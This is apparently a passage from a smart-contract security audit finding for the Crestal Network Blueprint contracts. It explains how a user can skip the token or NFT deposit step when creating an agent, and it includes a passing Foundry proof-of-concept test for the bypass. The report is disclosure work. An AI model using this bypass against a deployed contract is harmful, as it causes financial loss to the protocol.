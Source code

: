 ```
    }  
```

The scenario above will look like `createProjectIDAndPrivateDeploymentRequest() -> createCommonProjectIDAndDeploymentRequest() -> receive requestID -> submitProofOfDeployment()`.

The normal scenario is `createAgentWithToken() -> createAgent() -> store tokens or nfts -> createCommonProjectIDAndDeploymentRequest() -> receive requestID -> submitProofOfDeployment()`.

The difference is the scenario above create an agent without storing some tokens or nfts.

## Impact

Users can create agent without storing some tokens or nfts, causing loss to the protocol.

## Proof of concept

```
function test_userCouldBypassPegged() public {  
        string memory base64Proposal = "test base64 proposal";  
        string memory serverURL = "http://example.com";  
        string memory proofBase64 = "proofBase64";  
        bytes32 requestID;  
  
        vm.startPrank(user);  
  
        // 1. user calls createProjectIDAndPrivateDeploymentRequest  
        requestID = blueprint.createProjectIDAndPrivateDeploymentRequest(  
            projectId,  
            base64Proposal,  
            user,  
            serverURL  
        );  
  
        // 2. user calls submitProofOfDeployment  
        blueprint.submitProofOfDeployment(  
            projectId,  
            requestID,  
            proofBase64  
        );  
        vm.stopPrank();  
  
        string memory proofBase64Actual = blueprint.getDeploymentProof(requestID);  
  
        assertEq(keccak256(abi.encode(proofBase64)), keccak256(abi.encode(proofBase64Actual)));  
    }  
Ran 1 test for test/BlueprintV5.t.sol:BlueprintTest  
[PASS] test_userCouldBypassPegged() (gas: 238177)  
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 51.06ms (49.46ms CPU time)  
```

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L416-L425
